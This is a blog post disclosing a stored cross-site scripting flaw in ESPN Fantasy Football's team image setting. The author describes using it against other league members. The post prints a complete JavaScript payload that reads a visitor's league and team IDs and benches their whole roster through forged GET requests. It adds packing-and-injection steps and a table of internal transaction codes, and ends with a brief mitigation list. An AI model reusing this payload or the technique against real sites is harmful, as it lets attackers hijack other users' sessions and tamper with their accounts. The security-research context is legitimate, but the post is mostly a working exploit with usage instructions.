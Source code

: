 title: ESPN Fantasy Football - The Complete Attack
publish: True
categories: [hacking]

I have run an ESPN Fantasy Football League every year since the software was available and am a huge fan of the ESPN Fantasy Football experience. However, last year I came across a series of vulnerabilities in the FFB software which basically give an attacker full control of opponent, and other league, teams. Very few people know of the research I was conducting as I was beginning the disclosure process with ESPN.com's web developers. Today, to my complete surprise, I was made aware of these 2 articles:

<!-- READMORE -->

[http://www.theregister.co.uk/2010/09/22/espn_fantasy_football_cheating/](http://www.theregister.co.uk/2010/09/22/espn_fantasy_football_cheating/)  
[http://xs-sniper.com/blog/2010/09/22/put-me-in-coach/comment-page-1/](http://xs-sniper.com/blog/2010/09/22/put-me-in-coach/comment-page-1/)

While xssniper rightfully gets the credit for the discovery, as he was quicker to the trigger than I, he missed something in his research which greatly enhances this attack. There is a stored XSS vulnerability in the team image setting which allows an attacker to store a malicious script on the server and completely automates the roster attacks for anyone that is subjected to the team image. ESPN does validate the input by removing '&lt;' and '&gt;' from the input, but what it doesn't do is limit the length of the input. Therefore, you can write the script in its entirety and inject it into the input field. The code that I have developed as a POC also works across leagues. Come back soon as I will be posting screenshots and POC code when I can get back to my lab.

ENJOY!

UPDATE: Note to self, take screenshots prior to disclosure of vulnerabilities. In my own defense, I was caught completely off guard by the disclosure so...

![Oops!](/images/posts/oops.png)

Since i'm limited in the amount of pictures I can show at this point, i'll do my best to explain the process.

### Discovery:

It all started at DEFCON 17. I had spent the majority of my time in the Web App Security track and really enjoyed the concepts of web application testing. As we all know, DEFCON is in late July / early August which was also about the time I typically set up my FFB league for the year. As I was editing my team settings, I saw that you could set a custom image in the form of a url. Since the image is then shown back to you on every page you visit within the league from that point forward, I figured there was some serious potential for a stored XSS attack there. Looking at the code, I noticed that all it did was take the url you submit, and throw it into the 'src' attribute of an image tag. In my first attempt to exploit, i filled the image tag with arbitrary data and appended a script tag to the closed image tag. To ESPN's credit, they actually validated the input and filtered out all '&lt;' and '&gt;'. Therefore, the script tag didn't work. I'd have to exploit via the image tag. Very easy. There are several events in an image that allows you to run javascript, 'onerror' and 'onload'. As you can see from my demo last year, I initially went with the 'onerror' event because I wanted to be completely obvious in testing. ESPN did not validate and filter out any javascript code, so the exploitation worked perfectly. For practical implementation, I went with the 'onload' event, loading an actual team image, and running the script upon a successful load. I had some fun with this over the season.

### Exploitation:

My favorite implementation was a script that prompted other players viewing my team if they were my opponent that week. If they clicked 'yes', then the script went through a series or random "trash talking" phrases. If they clicked 'no', then they were forward to my team page. Harmless really. As I began to look more into the FFB software, I began to notice the same parameter issues that xssniper pointed out in his blog. So a few months ago, I wrote a script which uses the stored XSS vulnerability to parse all of the required parameters from the visiting players browser and executes any series of evil things based upon those params. The code below first determines whether the visiting player is logged in or not. If they are logged in, it parses out the 'teamId', makes an AJAX call for their team page, parses out all of the 'playerId's, then loops through and benches every player using a dummy javascript image request. Basically, on gameday, when my opponent launches the scoreboard, their entire team is benched and they are unable to score any points. XSS FTW... literally!!!

``` javascript
function unique(a) {
  var r = new Array();
  o:for(var i = 0, n = a.length; i &lt; n; i++) {
    for(var x = 0, y = r.length; x &lt; y; x++) {
      if(r[x]==a[i]) {
        continue o;
      }
    }
    r[r.length] = a[i];
  }
  return r;
}
var pagesrc = document.documentElement.innerHTML;
var score_period;
var league_id;
var team_id;
var team_url;
var bench_url;
var player_ids = null;
var patt_pid = /(playerId=).([\d]+).\s/g;
var patt_tid = /([\d]+)/g;
var patt_spid = /currentScoringPeriodId:\s(\d+),/g;
var patt_lid = /leagueId:\s(\d+),/g;
if (pagesrc.search("My Fantasy Teams")!=-1) {
  //get currentScoringPeriodId
  score_period = patt_spid.exec(pagesrc);
  score_period = score_period[1];
  //get leagueId
  league_id = patt_lid.exec(pagesrc);
  league_id = league_id[1];
  //get teamId
  pagesrc = pagesrc.substr(pagesrc.indexOf("My Fantasy Teams"),400);
  team_id = pagesrc.substr(pagesrc.indexOf("teamId=")+7);
  team_id = patt_tid.exec(team_id);
  team_id = team_id[1];
  team_url = "http://games.espn.go.com/ffl/clubhouse?leagueId=" + league_id + "&amp;teamId=" + team_id + "&amp;seasonId=2010";
  var xmlhttp = new XMLHttpRequest();
  xmlhttp.open("GET", team_url, true);
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4) {
      pagesrc = xmlhttp.responseText;
      player_ids_clean = new Array();
      var i = 0;
      while (player_ids = patt_pid.exec(pagesrc)) {
        player_ids_clean[i] = player_ids[2];
        i += 1;
      }
      player_ids_clean = unique(player_ids_clean);
      for (i=0;i&lt;=15;i++) {
        bench_url = "http://games.espn.go.com/ffl/pnc/saveRoster?leagueId=" + league_id + "&amp;teamId=" + team_id + "&amp;scoringPeriodId=" + score_period + "&amp;returnSm=false&amp;trans=1_" + player_ids_clean[i] + "_0_20";
        img = new Image();
        img.src = bench_url;
      }
    }
  };
  xmlhttp.send(null);
}
```

Script usage:

1. Compress with [http://dean.edwards.name/packer/](http://dean.edwards.name/packer/)
2. Copy compressed code and paste into notepad
3. Use notpad to replace all " with '
4. Append result from notepad to `http://[image url]" onload="`

The script is seen as coming from espn, so same origin policy applies and the script is allowed to run. Also, NoScript doesn't help unless you are blocking globally which ruins the espn.com experience.

Other information I was able to discover:

transType table:

```
1=Move
2=Add
3=Drop
```

Position table:

```
0=QB
1=Not on Roster
2=RB1/2
3=RB/WR
4=WR1/2
5=TE
16=D
17=K
20=BENCH
```

ADD Player:

```
transType_playerId_?_?_startPos?_endPos
ex. 2_11390_-1_1001_1_20
```

MOVE Player:

```
transType_playerId_startPos_endPos
ex. 1_1753_0_20
```

DROP Player:

```
transType_playerId_teamId/scoringPeriod?_Position_?_?
ex. 3_1753_1_2_-1_1002
```

Bottom-line Findings and Mitigation:

1. Input box allows strings of any length for input. Bad idea. Limit input.
2. When done for real, there is a confirmation button which issues a POST. However, the server side function will accept a GET, which makes this attack much easier. If they accepted POST only, then we would have to use additional resources to create the attack. Much easier to leverage a session through GET than it is to pass authentication tokens via POST.
3. Some code validation is done, but not enough. May prevent referencing the script from another location, but since it is injectible through 'onerror' and 'onload', and input is unlimited, who cares.
